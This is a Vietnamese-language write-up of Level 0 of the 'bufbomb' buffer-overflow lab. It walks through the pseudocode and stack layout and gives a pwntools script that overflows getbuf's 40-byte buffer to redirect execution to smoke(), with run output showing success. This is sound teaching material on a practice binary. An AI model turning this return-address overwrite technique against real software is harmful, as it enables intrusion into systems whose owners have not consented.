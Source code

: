 # Level 0
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Yêu cầu: Buffer overflow để thực thi hàm `smoke()` từ hàm `test()`.

## Solution
Mở IDA Pro 32bit và xem pseudocode của hàm `test()`.  

```c
int test()
{
  int v1; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  v1 = uniqueval();
  v2 = getbuf();

  if ( uniqueval() != v1 )
    return puts("Sabotaged!: the stack has been corrupted");
  if ( v2 != cookie )
    return printf("Dud: getbuf returned 0x%x\n", v2);
  printf("Boom!: getbuf returned 0x%x\n", v2);
  return validate(3);
}
```  

Có thể thấy, ở trong hàm `test()` có hàm `getbuf()` được dùng để đọc chuỗi vào buffer. Vậy chúng ta tiến hành xem pseudocode của hàm `getbuf()`.  
```c
int getbuf()
{
  char v1[40]; // [esp+0h] [ebp-28h] BYREF

  Gets(v1);
  return 1;
}
```  

Từ đoạn pseudocode trên thì ta có thể thấy, `buffer` sẽ có độ dài là 40 (`0x28`) bytes và `buffer` này sẽ được truyền vào hàm `Gets()` để thực hiện việc đọc chuỗi từ console.  

Trước khi hàm `Gets()` được thực thi, stack của chúng ta sẽ như sau:  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|           ebp (getbuf)          |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+

```  

Vậy để thực thi được hàm `smoke()`, chúng ta sẽ tìm cách ghi đè địa chỉ của hàm `smoke()` vào ô nhớ stack chứa địa chỉ trả về của hàm `getbuf()` (như hình ảnh minh họa ở trên). Do đó, payload của chúng ta phải có độ dài `0x28 + 0x4 + 0x4` (với `0x28` bytes để fill hết toàn bộ buffer được cấp, `0x4` tiếp theo để ghi đè `ebp` của hàm `getbuf()` và `0x4` cuối cùng chính là địa chỉ của hàm `smoke()`.  

Ở hàm `smoke()`, nếu chúng ta gọi hàm thành công thì chuỗi `Smoke!: You called smoke()` sẽ được in ra console.  
```c
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}
```

### Script
Để hiện thực hóa ý tưởng trên thì chúng ta sẽ dùng module `pwn` của Python.  

```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo 1 tiến trình tới chương trình bufbomb
io = process(['./bufbomb', '-u', '09821978'])

e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)

# lấy địa chỉ của hàm smoke() và thêm vào payload
exploit_payload += p32(e.symbols['smoke'])

print(exploit_payload)

# nhập payload vào tiến trình bufbomb
io.sendline(exploit_payload)

# hiển thị kết quả
io.interactive()
```  

Stack khi bị buffer overflow:  
```
+---------------------------------+
|     địa chỉ của hàm smoke()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x1C bytes 
               .

+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+

```

Chạy script:  

```
└─$ ./level0.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 52
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xeb\x9a\x13\x80'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 52)
Userid: 09821978
Cookie: 0x31f21393
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
